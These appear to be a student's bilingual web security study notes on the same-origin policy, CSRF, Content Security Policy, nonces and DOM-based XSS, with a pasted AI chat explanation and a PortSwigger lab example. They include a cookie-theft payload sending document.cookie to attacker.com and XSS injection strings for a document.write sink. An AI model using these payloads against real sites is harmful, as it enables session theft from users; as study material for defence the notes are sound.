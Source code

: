 #### Content Security Policy (CSP)
- Same Origin Policy prohibits cross-origin fetch. 
> SOP 主要是为了保护被fetch的网站。但是SOP不禁止跨源提交表单，于是可以CSRF攻击。（没想到吧，让受害者访问攻击者网站，在受害者不知情的情况下偷偷带着cookie发送请求到目标网站比如转走处于登陆状态的受害者的银行账户里的钱财）。SOP也不禁止跨源加载静态资源，可以利用`<svg onload="'attacker.com?q='+document.cookie">`盗取cookie.（没有想到被fetch的网站反而是攻击者的吧，通过get请求在url中携带的参数把cookie偷走）
- Previously, we talked about ways to tighten up Same Origin Policy in terms of which sites could e.g. send requests with cookies to our site (CSRF)
    - That is, preventing other sites from making certain requests to our site 防御CSRF，在server端用origin allowlist
- CSP is inverse: prevent our site from making requests to other sites
    - CSP is an added layer of security against XSS
    - Even if attacker code is running in user's browser in our site's context, we can limit the damage they can do

In summary
1. SOP prevents cross site fetch
2. server side origin allowlist prevents CSRF
3. CSP prevents XSS

 CSP is set in HTTP response header. CSP blocks HTTP requests which would violate the policy. 比方说访问目标网站，相应的header里设置了CSP,可以让浏览器知道不能向`attacker.com`发请求。

 Goal: content comes from our site
 ```
 Content-Security-Policy: default-src 'self'
 ```
 可以相对路径加载，禁止跨源加载资源，也禁止inline脚本如`<script>alert(1)</script>`等

 Goal: content comes from our site, plus a trusted set of subdomains
 ```
 Content-Security-Policy: default-src 'self' *.trusted.com
 ```
 如果设置了`img-src`或者`scirpt-src`那么相应的资源是轮不到`default-src`其作用的（`default-src` is fallback）。

#### Deploy CSP on an existing site
Q: How do we figure out what the policy should be? What if we missing something? Site breaks. <br>
A: Deploy it in **report-only mode**. Policy is not enforced, but violations are reported to a provided URL.

```
Content-Security-Policy-Report-Only:
  default-src 'self';
  report-uri https://example.com/report
```

#### Nonce
Server sends
```
Content-Security-Policy: script-src 'strict-dynamic' 'nonce-abc123'
```

```html
<script src='https://trusted.com' nonce='abc123'>
</script>
<script nonce='abc123'>foo()</script>
```

- When the attacker inject scripts without the nonce, they won't be allowed to run. 
- Attacker cannot figure out the nonce. Why? Because the header is not returned to the attacker, and, also, the attacker code cannot run to check the response page yet.
  - Nonce changes on each page load, and is unpredictable.


#### DOM-XSS

Q: 还是没理解插入到DOM和反射型xss的不一样，反射型xss不也是把插入到到html中吗，插入dom和插入html有什么不一样的？<br>
KIMI chat: 插入到DOM和反射型XSS之间的关键区别在于攻击的触发方式和数据流的处理。让我们更详细地解释一下：

##### 反射型XSS（Non-Persistent XSS）：
1. **数据流**：在反射型XSS中，攻击者构造一个包含恶意脚本的URL，这个URL被用户点击或通过电子邮件等方式发送给用户。
2. **服务器处理**：当用户访问这个URL时，服务器接收到请求并处理URL中的参数，然后将这些参数作为响应的一部分发送回用户的浏览器。
3. **插入HTML**：服务器生成的响应包含了恶意脚本，这个脚本被插入到HTML响应中，当用户的浏览器接收到这个响应并渲染页面时，恶意脚本被执行。
4. **触发条件**：恶意脚本的执行通常是由用户点击链接或提交表单触发的。

##### DOM-XSS：
1. **数据流**：在DOM-XSS中，恶意数据首先被加载到用户的浏览器中，可能是通过URL参数、表单提交、Cookie或其他方式。
2. **客户端处理**：这些数据被浏览器加载后，网页的JavaScript代码会处理这些数据，并将其插入到DOM中。
3. **插入DOM**：与反射型XSS不同，这里没有服务器参与将数据插入到HTML中的过程。相反，是客户端的JavaScript代码将数据动态地插入到DOM中。
4. **触发条件**：恶意脚本的执行是由客户端的JavaScript代码触发的，通常是用户与页面上的某些元素交互，如点击按钮或提交表单。

##### 插入DOM和插入HTML的区别：
- **处理位置**：插入HTML通常是由服务器端处理并发送给客户端的，而插入DOM是在客户端由JavaScript代码处理的。
- **执行时机**：插入HTML的恶意脚本在服务器响应的HTML页面被浏览器渲染时执行，而插入DOM的恶意脚本是在JavaScript代码执行时，将数据动态插入到DOM后执行。
- **攻击方式**：反射型XSS依赖于服务器将恶意数据作为响应发送给用户，而DOM-XSS依赖于客户端JavaScript代码将数据插入到DOM中。

简而言之，反射型XSS是服务器将恶意脚本作为响应发送给用户，而DOM-XSS是客户端JavaScript将数据动态插入到DOM中，然后执行。两者的主要区别在于攻击的触发点和数据处理的位置。

例子 https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

这个页面有脚本
```html
<script>
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
</script>
```
其中`query`是通过GET请求url参数`search`传入，可以构造payload`" onload=alert(1) >//`